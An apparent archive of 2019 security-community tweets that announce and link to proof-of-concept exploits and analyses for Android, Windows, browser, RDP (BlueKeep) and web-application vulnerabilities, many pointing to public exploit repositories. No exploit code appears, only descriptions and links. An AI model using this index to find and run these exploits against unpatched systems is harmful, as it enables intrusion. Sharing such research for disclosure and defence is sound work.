<td>Retweets: <code>518</code></td>
<td>Favorites: <code>1430</code></td>
</tr></table>

---
# Dinosn
**https://twitter.com/Dinosn/status/1185132930148061185 _at Fri Oct 18 09:58:03 +0000 2019_**
<blockquote>
Researcher released PoC exploit code for CVE-2019-2215 Android zero-day flaw https://t.co/JXTe1kmaxd
</blockquote>

* https://securityaffairs.co/wordpress/92633/hacking/cve-2019-2215-zero-day-exploit.html

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>43</code></td>
<td>Favorites: <code>94</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/1184834125821145095 _at Thu Oct 17 14:10:43 +0000 2019_**
<blockquote>
qu1ckr00t (CVE-2019-2215)

Researcher releases proof-of-concept for a recent #Android kernel arbitrary read/write zero-day vulnerability that was being actively exploited in the wild.

https://t.co/yBf9n7fXzO

Demo: https://t.co/Ih2biu7Dbf
</blockquote>

* https://github.com/grant-h/qu1ckr00t
* https://twitter.com/Digital_Cold/status/1182045384505466885

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>78</code></td>
<td>Favorites: <code>122</code></td>
</tr></table>

---
# HeinrichsH
**https://twitter.com/HeinrichsH/status/1184358671733743616 _at Wed Oct 16 06:41:26 +0000 2019_**
<blockquote>
A few hours ago, two bugs in Palo Alto Networks GlobalProtect Agent allowing LPE on Win/Linux/macOS were fixed (CVE-2019-17435, CVE-2019-17436). Curious? Grab one of the last @t2_fi tickets 🎫 and learn more 😊🤙🏻 #t2infosec
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>21</code></td>
<td>Favorites: <code>33</code></td>
</tr></table>

---
# Digital_Cold
**https://twitter.com/Digital_Cold/status/1182045384505466885 _at Wed Oct 09 21:29:15 +0000 2019_**
<blockquote>
Rooting a Pixel 2 with Magisk from an untrusted app using CVE-2019-2215, no OEM unlock needed https://t.co/yGovBluQj5
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>26</code></td>
<td>Replies: <code>31</code></td>
<td>Retweets: <code>270</code></td>
<td>Favorites: <code>940</code></td>
</tr></table>

---
# kmkz_security
**https://twitter.com/kmkz_security/status/1180053432960475138 _at Fri Oct 04 09:33:57 +0000 2019_**
<blockquote>
Confluence Unauthorized RCE Vulnerability (CVE-2019-3396) Analysis  https://t.co/4i5QvSzcIv
</blockquote>

* https://paper.seebug.org/886/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>24</code></td>
<td>Favorites: <code>30</code></td>
</tr></table>

---
# jamesbercegay
**https://twitter.com/jamesbercegay/status/1176735731567476736 _at Wed Sep 25 05:50:35 +0000 2019_**
<blockquote>
Here is a quick technical analysis I did of the #vbulletin #0day 

TL;DR: Doesn't seem to be a backdoor. Just horrible programming logic.

https://t.co/vMzr2SFTxA
</blockquote>

* https://gist.github.com/jamesbercegay/a8f169059c6184e76b12d98d887542b3

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>28</code></td>
<td>Favorites: <code>59</code></td>
</tr></table>

---
# kmkz_security
**https://twitter.com/kmkz_security/status/1176729443722833920 _at Wed Sep 25 05:25:36 +0000 2019_**
<blockquote>
IE9/IE11 Vulnerability advanced exploitation: PoC+slides on how to bypass ASLR+DEP to exploit IE9-IE11 successfully
https://t.co/l9F8jmfQXU
</blockquote>

* https://github.com/k33nteam/IE9-IE11-Vulnerability-Advanced-Exploitation

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>180</code></td>
<td>Favorites: <code>315</code></td>
</tr></table>

---
# Dinosn
**https://twitter.com/Dinosn/status/1176013649774874624 _at Mon Sep 23 06:01:18 +0000 2019_**
<blockquote>
CVE-2019-1082 Windows Local Privileges Escalation. Little Writeup How i found lpe vulnerability. https://t.co/Gtd82bRqKR
</blockquote>

* https://www.reddit.com/r/netsec/comments/d80o63/cve20191082_windows_local_privileges_escalation/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>130</code></td>
<td>Favorites: <code>274</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/1174252554651426823 _at Wed Sep 18 09:23:20 +0000 2019_**
<blockquote>
Warning — Researcher drops PoC for a new #phpMyAdmin zero-day flaw (CVE-2019-12922) publicly that affects all versions of the popular, widely-used database management #software.

Details: https://t.co/XGJpDCbuW0

#infosec #webdev

—via @security_wang https://t.co/GWmQceJUrI
</blockquote>

* https://thehackernews.com/2019/09/phpmyadmin-csrf-exploit.html

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>19</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>237</code></td>
<td>Favorites: <code>239</code></td>
</tr></table>

---
# Alra3ees
**https://twitter.com/Alra3ees/status/1172644207862996993 _at Fri Sep 13 22:52:20 +0000 2019_**
<blockquote>
Windows-RCE-exploits: The exploit samples database is a repository for **RCE** (remote code execution) exploits and Proof-of-Concepts for **WINDOWS**, the samples are uploaded for education purposes for red and blue teams. https://t.co/urJ6xHeE3c
</blockquote>

* https://github.com/smgorelik/Windows-RCE-exploits

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>163</code></td>
<td>Favorites: <code>348</code></td>
</tr></table>

---
# Dinosn
**https://twitter.com/Dinosn/status/1172224144068546560 _at Thu Sep 12 19:03:09 +0000 2019_**
<blockquote>
From BinDiff to Zero-Day: A Proof of Concept Exploiting CVE-2019-1208 in Internet Explorer https://t.co/45VjymtB0H
</blockquote>

* https://blog.trendmicro.com/trendlabs-security-intelligence/from-bindiff-to-zero-day-a-proof-of-concept-exploiting-cve-2019-1208-in-internet-explorer/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>59</code></td>
<td>Favorites: <code>152</code></td>
</tr></table>

---
# OPOSEC
**https://twitter.com/OPOSEC/status/1172102564277575680 _at Thu Sep 12 11:00:02 +0000 2019_**
<blockquote>
Firefox Use-After-Free PoC (CVE-2018-18500). https://t.co/yz3via1TTc #Hack #270 (2019)
</blockquote>

* https://github.com/sophoslabs/CVE-2018-18500/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>22</code></td>
</tr></table>

---
# piedpiper1616
**https://twitter.com/piedpiper1616/status/1171242948584861696 _at Tue Sep 10 02:04:14 +0000 2019_**
<blockquote>
GitHub - exodusintel/Chrome-Issue-992914-Sealed-Frozen-Element-Kind-Type-Confusion-RCE-Exploit: September Chrome 1day by István Kurucsai https://t.co/9loQ9Q1cZ9
</blockquote>

* https://github.com/exodusintel/Chrome-Issue-992914-Sealed-Frozen-Element-Kind-Type-Confusion-RCE-Exploit/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>14</code></td>
<td>Favorites: <code>47</code></td>
</tr></table>

---
# ZecOps
**https://twitter.com/ZecOps/status/1167517173918486528 _at Fri Aug 30 19:19:20 +0000 2019_**
<blockquote>
We previously analyzed the (at the time) 0day used in the attacks Google Threat Analysis group revealed today. You can read the technical analysis of CVE-2019-7286 here https://t.co/qxB0epH7Uq and https://t.co/2WvxQcAlD1
</blockquote>

* https://blog.zecops.com/vulnerabilities/analysis-and-reproduction-of-cve-2019-7286/
* https://blog.zecops.com/vulnerabilities/exploit-of-cve-2019-7286/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>31</code></td>
<td>Favorites: <code>60</code></td>
</tr></table>

---
# 404death
**https://twitter.com/404death/status/1164578223096619010 _at Thu Aug 22 16:40:59 +0000 2019_**
<blockquote>
I found windows 10 LPE (UAC Bypass) in Windows Store (WSReset.exe)

https://t.co/pRvrLiEgBs

https://t.co/PXF2R5JtJM https://t.co/cSDetDs4Gz
</blockquote>

* https://heynowyouseeme.blogspot.com/2019/08/windows-10-lpe-uac-bypass-in-windows.html
* https://github.com/sailay1996/UAC_bypass_windows_store

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>134</code></td>
<td>Favorites: <code>263</code></td>
</tr></table>

---
# buherator
**https://twitter.com/buherator/status/1164077257658380289 _at Wed Aug 21 07:30:20 +0000 2019_**
<blockquote>
My Kaspersky LPE exploit is now on GitHub: https://t.co/x0Oc83P5j8 (self-defense bypass not included)

Demo: https://t.co/SQB4j1IwCF
</blockquote>

* https://github.com/v-p-b/kaspy_toolz/blob/master/virsli.py
* https://vimeo.com/343213886

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>132</code></td>
<td>Favorites: <code>245</code></td>
</tr></table>

---
# _CPResearch_
**https://twitter.com/_CPResearch_/status/1163798254145982466 _at Tue Aug 20 13:01:40 +0000 2019_**
<blockquote>
[CPR-Zero] CVE-2019-1159 (Windows 10 Kernel): Use-After-Free in the GetDCEx function in win32kfull.sys.
https://t.co/kg8deEXLnk
</blockquote>

* https://cpr-zero.checkpoint.com/vulns/cprid-2132/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>124</code></td>
<td>Favorites: <code>231</code></td>
</tr></table>

---
# zer0pwn
**https://twitter.com/zer0pwn/status/1161022192638935040 _at Mon Aug 12 21:10:36 +0000 2019_**
<blockquote>
The Year of Linux on the Desktop (CVE-2019-14744). 
Featuring a command injection bug in KDE 4 and 5.

https://t.co/ddCoXUcau4

#security #bugbounty #bugbountytips #redteam #0day #exploit #security #kde #zerodotlol #zerolol #analysis #poc
</blockquote>

* https://zero.lol/2019-08-11-the-year-of-linux-on-the-desktop/

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>25</code></td>
<td>Favorites: <code>46</code></td>
</tr></table>

---
# seebug_team
**https://twitter.com/seebug_team/status/1160854035097968640 _at Mon Aug 12 10:02:24 +0000 2019_**
<blockquote>
Analysis of Apache Solr DataImportHandler Remote Code Execution Vulnerability (CVE-2019-0193) is out now.  Learn more on Seebug Paper: https://t.co/0eNWDwceeF and Medium: https://t.co/wycw3zQpgz
</blockquote>

* https://paper.seebug.org/1010/
* https://medium.com/@knownsec404team/analysis-of-apache-solr-dataimporthandler-remote-code-execution-vulnerability-cve-2019-0193-2ce32e68d868

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>26</code></td>
<td>Favorites: <code>41</code></td>
</tr></table>

---
# wugeej
**https://twitter.com/wugeej/status/1156348321536983040 _at Tue Jul 30 23:38:18 +0000 2019_**
<blockquote>
[PoC Library] Windows RCE Exploits

(4) Office &amp; Acrobat
- CVE-2017-11882 (non updated office 2013 and number of others.)
- CVE-2013-2729 (Acrobat 11.0.0.1 and below)
- CVE-2018-4990 (Acrobat Reader DC (17.00920044, 18.01120038))

https://t.co/iJOOCpNIOF
</blockquote>

* https://github.com/smgorelik/Windows-RCE-exploits

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>6</code></td>
<td>Favorites: <code>9</code></td>
</tr></table>

---
# wugeej
**https://twitter.com/wugeej/status/1156348320282890240 _at Tue Jul 30 23:38:18 +0000 2019_**
<blockquote>
[PoC Library] Windows RCE Exploits

(2) JS exploit
- CVE-2015-2419 (tested on non updated IE 11

(3) Flash Exploits
- CVE-2018-15982 (Flash ActiveX 31.0.0.153)
- CVE-2018-4878 (Flash ActiveX 28.0.0.137)
- CVE-2015-5112 (Flash ActiveX 18.0.0.194)

https://t.co/iJOOCpNIOF
</blockquote>

* https://github.com/smgorelik/Windows-RCE-exploits

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>2</code></td>
</tr></table>

---
# wugeej
**https://twitter.com/wugeej/status/1156348318819090433 _at Tue Jul 30 23:38:17 +0000 2019_**
<blockquote>
[PoC Library] Windows RCE Exploits

(1) Web VBScript
- CVE-2018-8174 (tested on non updated Internet Explorer 11 Windows 7 64/32)
- CVE-2019-0752 (tested on non updated Internet Explorer 11 Windows 7-10 (a bit slow on win10))

https://t.co/iJOOCpNIOF
</blockquote>

* https://github.com/smgorelik/Windows-RCE-exploits

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>77</code></td>
<td>Favorites: <code>139</code></td>
</tr></table>

---
# wugeej
**https://twitter.com/wugeej/status/1154169847971897344 _at Wed Jul 24 23:21:49 +0000 2019_**
<blockquote>
[PoC] CVE-2019-2107 the decoder/codec runs under mediacodec user and with properly "crafted" video RCE. 

Proof of concept is in hevc-crash-poc.mp4, other videos are for non android players.

https://t.co/1QFjDn8B7N https://t.co/3S52Q7BlF7
</blockquote>

* https://github.com/marcinguy/CVE-2019-2107?fbclid=IwAR0xpL2fuMCpVFqscYmaMupzQve8GidUaZ6cfZ0tSYdK23euSY-ts7i_mjk

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>4</code></td>
<td>Favorites: <code>5</code></td>
</tr></table>

---
# SophosLabs
**https://twitter.com/SophosLabs/status/1148609081965514752 _at Tue Jul 09 15:05:19 +0000 2019_**
<blockquote>
CVE-2019-0888: Use-After-Free in Windows ActiveX Data Objects (ADO) 

It's been over a month since the patch was released, so we've published the following explanation of the bug, and how to exploit it to achieve an ASLR bypass and Read/Write primitive: https://t.co/LHeKeXR0fl https://t.co/fanX9ClNR7
</blockquote>

* https://news.sophos.com/en-us/2019/07/09/cve-2019-0888-use-after-free-in-windows-activex-data-objects-ado/?cmp=30727

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>35</code></td>
<td>Favorites: <code>40</code></td>
</tr></table>

---
# galdeleon
**https://twitter.com/galdeleon/status/1146031192195686400 _at Tue Jul 02 12:21:43 +0000 2019_**
<blockquote>
Just released my post about CVE-2019-0863 Win LPE which I discovered and was also spotted ITW https://t.co/HPt65Uxn9a #sandboxescaper #vulnerability #exploitation
</blockquote>

* https://unit42.paloaltonetworks.com/tale-of-a-windows-error-reporting-zero-day-cve-2019-0863/

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>39</code></td>
<td>Favorites: <code>56</code></td>
</tr></table>

---
# wugeej
**https://twitter.com/wugeej/status/1142604873562611718 _at Sun Jun 23 01:26:45 +0000 2019_**
<blockquote>
GitHub - sophoslabs/CVE-2019-0888: PoC for CVE-2019-0888 - Use-After-Free in Windows ActiveX Data Objects (ADO) https://t.co/o22CcRKQ11
</blockquote>

* https://github.com/sophoslabs/CVE-2019-0888/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>45</code></td>
<td>Favorites: <code>91</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/1142479720505679872 _at Sat Jun 22 17:09:26 +0000 2019_**
<blockquote>
Here's a PoC video for RCE vulnerability (CVE-2019-1105) in the "Outlook for Android," shared with THN by @Kumargaurav776, who also reported this flaw responsibly to the Microsoft. https://t.co/6ioKw3D4E2
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>10</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>72</code></td>
<td>Favorites: <code>116</code></td>
</tr></table>

---
# piedpiper1616
**https://twitter.com/piedpiper1616/status/1142289831499710464 _at Sat Jun 22 04:34:53 +0000 2019_**
<blockquote>
GitHub - sophoslabs/CVE-2019-0888: PoC for CVE-2019-0888 - Use-After-Free in Windows ActiveX Data Objects (ADO) https://t.co/3y7NKGms60
</blockquote>

* https://github.com/sophoslabs/CVE-2019-0888/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>52</code></td>
<td>Favorites: <code>108</code></td>
</tr></table>

---
# wugeej
**https://twitter.com/wugeej/status/1141525561954562048 _at Thu Jun 20 01:57:57 +0000 2019_**
<blockquote>
[PoC] CVE-2019-8603 (macOS vulnerability): Safari sandbox escape using an out-of-bounds read vulnerability

https://t.co/bqD4GosiBt
</blockquote>

* https://mp.weixin.qq.com/s/fC18oinvoOv-H989pw06tw

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>25</code></td>
<td>Favorites: <code>76</code></td>
</tr></table>

---
# zer0pwn
**https://twitter.com/zer0pwn/status/1141488997182709760 _at Wed Jun 19 23:32:39 +0000 2019_**
<blockquote>
CVE-2019-12828 Origin RCE analysis and proof of concept. https://t.co/O96NK8BmOZ #security #bounty #bugbounty #redteam #rce #qt  #bugbountytips
</blockquote>

* https://zeropwn.github.io/2019-05-22-fun-with-uri-handlers/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>92</code></td>
<td>Favorites: <code>220</code></td>
</tr></table>

---
# _zc00l
**https://twitter.com/_zc00l/status/1138562430626385921 _at Tue Jun 11 21:43:31 +0000 2019_**
<blockquote>
Now that it's no longer a 0day, check my post about "Coding a reliable CVE-2019-0841 bypass" to craft a LPE exploit that works for all versions of Microsoft Edge in Windows 10.
https://t.co/1VeFQ7W9Vm
</blockquote>

* https://0x00-0x00.github.io/research/2019/05/30/Coding-a-reliable-CVE-2019-0841-Bypass.html

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>105</code></td>
<td>Favorites: <code>203</code></td>
</tr></table>

---
# thezdi
**https://twitter.com/thezdi/status/1138505269737115654 _at Tue Jun 11 17:56:23 +0000 2019_**
<blockquote>
ZDI researcher @HexKitchen takes a detailed look at CVE-2019-1069 - an LPE via the Windows task scheduler. His analysis shows an attacker can escalate even without knowing a password. https://t.co/zMILRrxYzZ
</blockquote>

* http://bit.ly/2KdcXWT

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>91</code></td>
<td>Favorites: <code>139</code></td>
</tr></table>

---
# peterkruse
**https://twitter.com/peterkruse/status/1136995130609721344 _at Fri Jun 07 13:55:38 +0000 2019_**
<blockquote>
SandBoxEscaper has published a second bypass for CVE-2019-0841 so yet another 0day for latest Windows versions, https://t.co/gHErpgBPLg
</blockquote>

* https://github.com/SandboxEscaper/polarbearrepo/tree/master/ByeBear

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>12</code></td>
<td>Favorites: <code>15</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/1136949163587821568 _at Fri Jun 07 10:52:58 +0000 2019_**
<blockquote>
Hacker going by the name of #SandboxEscaper today discloses a second zero-day exploit that apparently bypasses #Microsoft's patch for a Windows EoP vulnerability (CVE-2019-0841)

https://t.co/DdO0bztrO5

—by @security_wang https://t.co/LNDzqajDOc
</blockquote>

* https://thehackernews.com/2019/06/windows-eop-exploit.html

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>21</code></td>
<td>Replies: <code>10</code></td>
<td>Retweets: <code>390</code></td>
<td>Favorites: <code>497</code></td>
</tr></table>

---
# Dinosn
**https://twitter.com/Dinosn/status/1133431713969909762 _at Tue May 28 17:55:53 +0000 2019_**
<blockquote>
Pwn2Own 2019: Microsoft Edge Sandbox Escape (CVE-2019-0938). Part 2 https://t.co/qgzg6YdB51
</blockquote>

* https://blog.exodusintel.com/2019/05/27/pwn2own-2019-microsoft-edge-sandbox-escape-cve-2019-0938-part-2/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>48</code></td>
</tr></table>

---
# thezdi
**https://twitter.com/thezdi/status/1133373429208502277 _at Tue May 28 14:04:17 +0000 2019_**
<blockquote>
In a new guest blog, the folks from Trend Micro Research provide an in-depth analysis of CVE-2019-0708, the recent Remote Desktop Services bug. https://t.co/OaJK6O21cE
</blockquote>

* http://bit.ly/2KeGYF3

<table><tr>
<td>Quotes: <code>13</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>236</code></td>
<td>Favorites: <code>354</code></td>
</tr></table>

---
# haki31337
**https://twitter.com/haki31337/status/1131836256529408000 _at Fri May 24 08:16:06 +0000 2019_**
<blockquote>
Win32k Elevation of Privilege Poc CVE-2019-0803
https://t.co/FTVlmCoKr9
#exploit #lpe #windows
</blockquote>

* https://github.com/ExpLife0011/CVE-2019-0803

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---
# ThierryFranzett
**https://twitter.com/ThierryFranzett/status/1131563625762701313 _at Thu May 23 14:12:46 +0000 2019_**
<blockquote>
2 more LPE dropped by Polar Bear on the GitHub repo: a CVE-2019-0841 bypass and a (hard-to-win) race condition on Windows Installer (https://t.co/2MmAQ5VGO8)
</blockquote>

* https://github.com/SandboxEscaper/polarbearrepo

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---
# campuscodi
**https://twitter.com/campuscodi/status/1131289442747125767 _at Wed May 22 20:03:16 +0000 2019_**
<blockquote>
Forgot to add the links for the two new 0-days. There you go:

WER: https://t.co/MjUWei8mr5

IE11: https://t.co/xJQiTkU0S6 https://t.co/GGcIIYXekI
</blockquote>

* https://github.com/SandboxEscaper/polarbearrepo/tree/master/angrypolarbearbug2
* https://github.com/SandboxEscaper/polarbearrepo/tree/master/sandboxescape

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>16</code></td>
<td>Favorites: <code>39</code></td>
</tr></table>

---
# campuscodi
**https://twitter.com/campuscodi/status/1131008055158689795 _at Wed May 22 01:25:08 +0000 2019_**
<blockquote>
PoC/demo/exploit is here: https://t.co/aImgIDKQ4F

Released by SandboxEscaper, who previously released four other Windows LPE zero-days last year https://t.co/zVc0vpVIe1
</blockquote>

* https://github.com/SandboxEscaper/polarbearrepo/tree/master/bearlpe

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>41</code></td>
</tr></table>

---
# luc4m
**https://twitter.com/luc4m/status/1130949681981403137 _at Tue May 21 21:33:10 +0000 2019_**
<blockquote>
SandboxEscaper Is dropping some #0day .. #lpe exploit
@prsecurity_ @0xffff0800 @MisterCh0c

https://t.co/3ymDuqlmPg https://t.co/Ew387PBqQ0
</blockquote>

* https://github.com/SandboxEscaper/polarbearrepo

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>33</code></td>
</tr></table>

---
# FuzzySec
**https://twitter.com/FuzzySec/status/1130943417436049408 _at Tue May 21 21:08:17 +0000 2019_**
<blockquote>
Soon everyone will find out anyway so you should be aware that SandboxEscaper has dropped another 0day -&gt; https://t.co/ekEb8C5H9s
I'm pretty tired of this =&gt; Not earning 💰 on 0day and putting people at unnecessary risk. It's really kind of lame in my book 👎
</blockquote>

* https://github.com/SandboxEscaper/polarbearrepo

<table><tr>
<td>Quotes: <code>11</code></td>
<td>Replies: <code>23</code></td>
<td>Retweets: <code>289</code></td>
<td>Favorites: <code>535</code></td>
</tr></table>

---
# XI_Research
**https://twitter.com/XI_Research/status/1129436429648629761 _at Fri May 17 17:20:03 +0000 2019_**
<blockquote>
.@tekwizz123 of our Nday team exploits the recently patched CVE-2019-0808 win32k bug to escape the chrome sandbox
https://t.co/lB1uaGkAIL
</blockquote>

* https://blog.exodusintel.com/2019/05/17/windows-within-windows/

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>115</code></td>
<td>Favorites: <code>178</code></td>
</tr></table>

---
# perito_inf
**https://twitter.com/perito_inf/status/1129294066515173377 _at Fri May 17 07:54:21 +0000 2019_**
<blockquote>
CVE-2019-0708(aka BlueKeep) PoC demo image. Cc @syrius_bughunt

Microsoft RDP(Remote Desktop Protocol) RCE Calc.exe pwned!
- Windows 7, Windows Server 2K3, Windows Server 2K8 

#RCE #RDP #BlueKeep, #KB4493472 #CVE20190708 

https://t.co/9tlQuLIKO7
</blockquote>

* https://github.com/syriusbughunt/CVE-2019-0708/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>7</code></td>
<td>Favorites: <code>13</code></td>
</tr></table>

---
# buffaloverflow
**https://twitter.com/buffaloverflow/status/1128431375680454657 _at Tue May 14 22:46:19 +0000 2019_**
<blockquote>
Today Intel released a fix for a bug I found in DSA (CVE-2019-11114). Tomorrow we will release an advisory demonstrating the LPE exploit 👍

https://t.co/LBGwV55Mme
</blockquote>

* https://www.intel.com/content/www/us/en/security-center/advisory/intel-sa-00252.html

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>21</code></td>
<td>Favorites: <code>44</code></td>
</tr></table>

---
# dangoodin001
**https://twitter.com/dangoodin001/status/1128406264956932096 _at Tue May 14 21:06:32 +0000 2019_**
<blockquote>
Hoping to head off another catastrophic worm, Microsoft took the unusual step of patching Win 2003 and XP against CVE-2019-0708. The RCE bug is easy to exploit and requires no user interaction. 3 million endpoints are directly exposed. Also affects Win 7, Server 2008 and 2008.
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>65</code></td>
<td>Favorites: <code>81</code></td>
</tr></table>

---
# perito_inf
**https://twitter.com/perito_inf/status/1127263131183583232 _at Sat May 11 17:24:08 +0000 2019_**
<blockquote>
CVE-2019-0604: Microsoft SharePoint RCE Vulnerability 

Exploit PoC:
https://t.co/8mobjeDJTd

Backdoor related to Sharepoint intrusions.
https://t.co/iu3d6C27IX
</blockquote>

* https://github.com/linhlhq/CVE-2019-0604
* https://pastebin.com/bUFPhucz

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>17</code></td>
<td>Favorites: <code>16</code></td>
</tr></table>

---
# hosselot
**https://twitter.com/hosselot/status/1125280426162053121 _at Mon May 06 06:05:34 +0000 2019_**
<blockquote>
Nice writeup+(0x41414141) PoC for Mozilla Firefox HTML5 Stream Parsing Use-after-free Vulnerability (CVE-2018-18500) by Yaniv Frank from @SophosLabs:
https://t.co/NgPzvUBWA7
</blockquote>

* https://news.sophos.com/en-us/2019/04/18/protected-cve-2018-18500-heap-write-after-free-in-firefox-analysis-and-exploitation/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>43</code></td>
<td>Favorites: <code>111</code></td>
</tr></table>

---
# OPOSEC
**https://twitter.com/OPOSEC/status/1124992139354615808 _at Sun May 05 11:00:02 +0000 2019_**
<blockquote>
Google Chrome pdfium shading drawing integer overflow to RCE (CVE-2018-6120). https://t.co/xcdsVZlLOc (+) #Security #231 (2018)
</blockquote>

* http://bit.ly/2O5x7k2

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>38</code></td>
<td>Favorites: <code>80</code></td>
</tr></table>

---
# Gr1nchDC
**https://twitter.com/Gr1nchDC/status/1124069208558657536 _at Thu May 02 21:52:38 +0000 2019_**
<blockquote>
Dell SupportAssist RCE Proof of Concept -- "This is the proof of concept source code for CVE-2019-3719, a vulnerability in most of all Dell machines that allowed for remote code execution." -- https://t.co/KwZp2hZnD6
</blockquote>

* https://github.com/D4stiny/Dell-Support-Assist-RCE-PoC

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>2</code></td>
</tr></table>

---
# thezdi
**https://twitter.com/thezdi/status/1121431383870771200 _at Thu Apr 25 15:10:51 +0000 2019_**
<blockquote>
CVE-2019-0726/ZDI-19-272: @HexKitchen details a vuln in the #Windows DHCP Client reported by Trend's own Saran Neti. Bug could lead to RCE. Blog provides root cause analysis &amp; steps to reproduce. https://t.co/NlFISGNqZt
</blockquote>

* http://bit.ly/2UTCs56

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>85</code></td>
<td>Favorites: <code>141</code></td>
</tr></table>

---
# CyberWarship
**https://twitter.com/CyberWarship/status/1117727023424782338 _at Mon Apr 15 09:51:03 +0000 2019_**
<blockquote>
CVE-2019-0541 - Exploit  

MSHTML Engine RCE on any Windows version since at least XP up to 10 &amp;&amp; Server 2019 

#infosec #pentest #exploit 
https://t.co/B7gGcGl1y7
</blockquote>

* https://www.exploit-db.com/exploits/46536

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>186</code></td>
<td>Favorites: <code>323</code></td>
